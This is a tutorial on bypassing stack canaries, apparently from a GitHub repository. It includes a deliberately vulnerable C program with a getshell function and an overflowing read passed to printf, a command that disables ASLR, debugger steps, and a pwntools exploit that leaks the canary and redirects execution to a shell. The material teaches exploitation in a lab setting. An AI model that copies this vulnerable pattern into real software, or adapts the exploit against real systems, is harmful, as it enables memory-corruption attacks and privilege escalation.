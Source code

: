 # 1. Stack Canary:
- Stack canaries or security cookies are tell-tale values added to binaries during compilation to protect critical stack values like the Return Pointer against buffer overflow attacks. If an incorrect canary is detected during certain stages of the execution flow, such as right before a return (RET), the program will be terminated. Their presence makes exploitation of such vulnerabilities more difficult. But not impossible.
---

# 2. Canary Bypassing
## 2.1 Setting up environment
Source code:
```c
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>
#include<string.h>

void getshell(void){
  setuid(0);
  system("/bin/sh");
}

void init(){
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
}

void vuln(){
  char buf[100];
  for (int i=0; i<2; i++){
    read(0, buf, 0x200);
    printf(buf);
  }
}

int main(void){
  init();
  puts("Hello Hacker!");
  vuln();
  return 0;
}
```
Compile it with **gcc**:
```bash
gcc -m32 -fstack-protector-all -no-pie vulnerable.c -o vulnerable 
```

In this case, we will turn off **ASLR**:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## 2.2 Finding offset
Make 150 **A** and send it to check if it crashed
![canary_img1.png](canary_img1.png)

Note that, the program `arboted`, not a `segment fault`, and there is a string - `*** stack smashing detected ***: terminated` - which is protected by stack cookie

In `vuln()`, it is a function caused Buffer Overflow, so open debugger and disassembly to see what we got

![canary_img2.png](canary_img2.png)

We can see in here, there is the cookie that check fail local, it's stack canary also, let's make a breakpoint at `nop` and get more information

![canary_img3.png](canary_img3.png)

In \<Vuln+86\>, the canary move \[ebp-0xc\] to eax. So we can see what the value is

![canary_img4.png](canary_img4.png)

In here, we got `0x16975100`, last 2 byte `00` meaning the program is corrected, and continue it.

We already know how the flag looked like. Let's get the canary offset, and the program offset to make crash the program

![canary_img5.png](canary_img5.png)

![canary_img6.png](canary_img6.png)
Above image is the canary offset, next is image to get offset of buffer, press `stepi` to step to next instruction and stop at `call   0x80493d0 <__stack_chk_fail_local>`.

![canary_img7.png](canary_img7.png)

![canary_img8.png](canary_img8.png)

Then, continue the program, the program will be crashed and return address, get the offset.

![canary_img9.png](canary_img9.png)

## 2.2 Proof of Concept (PoC)

We have already known canary size is **100** and buffer size is **116**, but we don't know how many bytes will be added to the flag if the program doest accept, so make 100 buffer **A** to see.

![canary_img10.png](canary_img10.png)

![canary_img11.png](canary_img11.png)

As above image, I changed the value from `0x883c570a` to  `0x883c5700` which mean the program will continue without aborted by canary. press `continue` and the program works ok.

![canary_img12.png](canary_img12.png)

- Writting out the exploit with `pwn` library of python:
```python
#!/usr/bin/python3
from pwn import *
from struct import pack

get_shell = pack('<I', 0x80491c2) # Address of getshell()
exploit = process('./vulnerable')
exploit.recvuntil(b"Hello Hacker!")

payload = b'A'*100
exploit.sendline(payload)
exploit.recvuntil(b'A'*100)
canary = u32(exploit.recv(4))-0xa
log.info("Canary: " + hex(canary))

payload = b'A'*100 + p32(canary) + b'A'*12 + get_shell
exploit.send(payload)
exploit.recv()
exploit.interactive()
```

![canary_img13.png](canary_img13.png)

---
# 3. Reference
- [Linux Exploit Development](https://my.ine.com/path/019938d9-11cf-459b-b8ee-e662e10515f2)
- [SANS - Stack Canaries – Gingerly Sidestepping the Cage](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/)
